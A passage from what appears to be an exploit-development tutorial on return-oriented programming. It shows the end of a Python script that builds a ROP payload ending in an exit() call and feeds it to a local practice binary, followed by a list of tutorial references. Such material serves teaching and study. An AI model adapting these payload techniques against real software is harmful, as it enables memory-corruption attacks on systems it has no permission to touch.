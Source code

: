 ```python
payload += struct.pack("I", 0xdeaddead)
payload += struct.pack("I", 0xc0dec0de)

# Address of exit()
payload += struct.pack("I", exit)

# Execute the full payload
os.system("./rop1b '" + payload + "'")
```

Once the payload is constructed, we can execute it:

```
python payload.py
```

![ROP chains executed successfully](<../../../.gitbook/assets/image (965).png>)

## References

{% embed url="https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html" %}

{% embed url="https://www.ret2rop.com/2018/08/return-to-libc.html" %}

{% embed url="https://medium.com/@codingkarma/rop-the-easy-way-7a3b28070bbf" %}

{% embed url="https://www.fuzzysecurity.com/tutorials/expDev/7.html" %}

{% embed url="https://bordplate.no/blog/en/post/interactive-rop-tutorial/" %}

{% embed url="https://ctf101.org/binary-exploitation/return-oriented-programming/" %}

{% embed url="https://tc.gts3.org/cs6265/2019/tut/tut06-01-rop.html" %}
@spotheplanet
